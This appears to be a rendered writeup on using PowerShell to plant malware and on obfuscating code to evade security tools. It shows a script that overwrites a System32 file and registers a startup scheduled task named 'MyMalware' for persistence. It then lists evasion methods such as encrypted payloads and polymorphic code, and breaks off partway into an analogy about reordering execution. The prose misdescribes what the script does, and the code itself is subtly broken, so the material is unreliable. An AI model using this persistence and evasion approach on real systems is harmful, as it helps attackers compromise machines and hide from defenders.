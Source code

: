 ```PowerShell
if(Test-Path $backupFile) {
    # Restore original file
    Move-Item $backupFile $destinationFile -Force
}

# Backup original file
Copy-Item $destinationFile $backupFile

# Replace file
Copy-Item $sourceFile $destinationFile -Force

# Add a scheduled task to run the malware on startup
$action = New-ScheduledTaskAction -Execute 'C:\Windows\System32\evil.dll'
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "MyMalware" -Description "Run malware on startup"
```
This script replaces the original evil.dll file in the C:\Windows\System32 directory with a malicious malware.dll file located in the C:\Malicious directory. It also creates a backup of the original file before replacing it.

Finally, the script adds a scheduled task to run the malware on startup, ensuring that it is executed each time the system is booted up. This is just one example of how PowerShell scripts can be used to execute malicious code and infiltrate a secure system.

## Specific techniques that can be used to obfuscate code and bypass security measures.

  One technique is to use encryption to hide the code from detection. For example, an attacker can use AES encryption to encrypt their malicious code and then decrypt it at runtime using a key or password. This makes it difficult for security software to detect the malicious code because it appears as encrypted data, which is commonly used for legitimate purposes.

Another technique is to use polymorphic code, which changes its structure or behavior at runtime to avoid detection. This can be achieved by using code obfuscation tools or by manually writing code that is difficult to analyze.

Code obfuscation tools can be used to modify the code in such a way that it is still functionally equivalent to the original code, but is much harder to read and analyze. These tools can rename variables and functions, add redundant code, and use various other techniques to make the code harder to understand.

Manual code obfuscation can be achieved by writing code that is hard to read and understand, even for experienced developers. This can be done by using complex control structures, writing code that is difficult to follow, and using unconventional programming techniques.

Overall, the key to obfuscation is to make the code as difficult as possible to analyze and understand, which makes it harder for security software to detect and prevent malicious activity.

## LOW-LEVEL EXECUTIONAL OBFUSCATION
### INTRO
Imagine you have a set of instructions that say:
```
Put on your shoes
Tie your shoes
Walk to the door
Open the door
Walk outside
```
Now, let's say we want to obfuscate these instructions. Instead of following them in order, we'll create a map that tells us the new order:
```
1 maps to 3
2 maps to 1
```